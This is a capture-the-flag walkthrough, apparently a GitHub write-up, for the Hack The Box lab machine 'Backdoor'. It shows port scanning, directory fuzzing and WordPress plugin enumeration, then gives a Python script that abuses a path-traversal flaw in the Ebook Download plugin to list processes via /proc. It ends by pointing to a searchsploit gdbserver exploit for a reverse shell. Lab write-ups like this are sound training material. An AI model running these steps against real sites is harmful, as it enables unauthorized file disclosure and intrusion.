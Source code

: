 ![Header](screenshots/header.png)

## Enumeration

The IP is 10.10.11.125, I will add it to /etc/hosts:

![/etc/hosts/ picture](screenshots/etc-hosts.png)

Let's start off by enumerating the open ports:

```bash
$ nmap -p- --open -sS -v -n -Pn backdoor.htb -oG allPorts

# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.11.125 ()   Status: Up
Host: 10.10.11.125 ()   Ports: 22/open/tcp//ssh///, 80/open/tcp//http///, 1337/open/tcp//waste///   Ignored State: closed (65532)
```
  
It returns ports 22, 80 and 1337 as being open. 
  
I will run a nmap script to list the services and their versions that are running on each open port
  
```bash
$ nmap -p22,80,1337 -sCV backdoor.htb -oN targeted

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b4:de:43:38:46:57:db:4c:21:3b:69:f3:db:3c:62:88 (RSA)
|   256 aa:c9:fc:21:0f:3e:f4:ec:6b:35:70:26:22:53:ef:66 (ECDSA)
|_  256 d2:8b:e4:ec:07:61:aa:ca:f8:ec:1c:f8:8c:c1:f6:e1 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-generator: WordPress 5.8.1
|_http-title: Backdoor &#8211; Real-Life
1337/tcp open  waste?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

If you try to access via browser you will get an innocent website, where you can't do much.

Let's try to list subdirectories using wfuzz:

```bash
wfuzz -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -u "backdoor.htb/FUZZ" --hc=404 -c

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================
000000238:   301        9 L      28 W       317 Ch      "wp-content"
000000765:   301        9 L      28 W       318 Ch      "wp-includes"
000006941:   301        9 L      28 W       315 Ch      "wp-admin"
```

Knowing that we are dealing with Wordpress as the CMS, we can try running wpscan to list vulnerable plugins.
You will need an API token, which you can get [here](wpscan.com).

```bash
$ wpscan --url http://backdoor.htb/ --enumerate vp --plugins-detection aggressive --api-token <token>

[+] ebook-download
 | Location: http://backdoor.htb/wp-content/plugins/ebook-download/
 | Last Updated: 2020-03-12T12:52:00.000Z
 | Readme: http://backdoor.htb/wp-content/plugins/ebook-download/readme.txt
 | [!] The version is out of date, the latest version is 1.5
 | [!] Directory listing is enabled
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://backdoor.htb/wp-content/plugins/ebook-download/, status: 200
 |
 | [!] 1 vulnerability identified:
 |
 | [!] Title: Ebook Download < 1.2 - Directory Traversal
 |     Fixed in: 1.2
 |     References:
 |      - https://wpscan.com/vulnerability/13d5d17a-00a8-441e-bda1-2fd2b4158a6c
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-10924
 |
 | Version: 1.1 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://backdoor.htb/wp-content/plugins/ebook-download/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://backdoor.htb/wp-content/plugins/ebook-download/readme.txt
```

## Foothold

We can see that there is a vulnerable plugin called Ebook Download. If we search for it on searchsploit, we fill find file with **id 39575**.
I will download it on my computer using:

`$ searchsploit -m 39575`

If we open the text file, we can see that the plugin is vulnerable to Path Traversal and Local File Inclusion.
We can list running processes using the path /proc/_pid_/cmdline, where pid is a valid process ID.
Using a Python script to iterate through the PIDs, we can find which are running.

```python
#!/bin/python3

import signal
import requests
import sys

from pwn import *

def def_handler(sig, frame):
    print("\n[!] Stopping the process...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Global variables
main_url = "http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/"
empty_resp = 125

p1 = log.progress("Brute force")
p1.status("Starting brute force attack")

for pid in range(0,5000):
    p1.status("Testing pid %d" % (pid))
    content = (requests.get(main_url + str(pid) + "/cmdline")).content
    if (len(content) > empty_resp):
        print(f"[+] Process {pid} found")
        print(content)
        print("--------------------------------------------\n")
```

We see that there's a service called gdbserver running on the open port 1337:
  
```bash
[+] Process 850 found
b'/proc/850/cmdline/proc/850/cmdline/proc/850/cmdline/bin/sh\x00-c\x00while true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;";done\x00<script>window.close()</script>'
```
  
If we look for it on searchsploit we will find a vulnerability with **id 50539**.
If we run it and follow the instructions provided, we can get a reverse shell as user and view the flag.

![whoami output](screenshots/foothold.png)
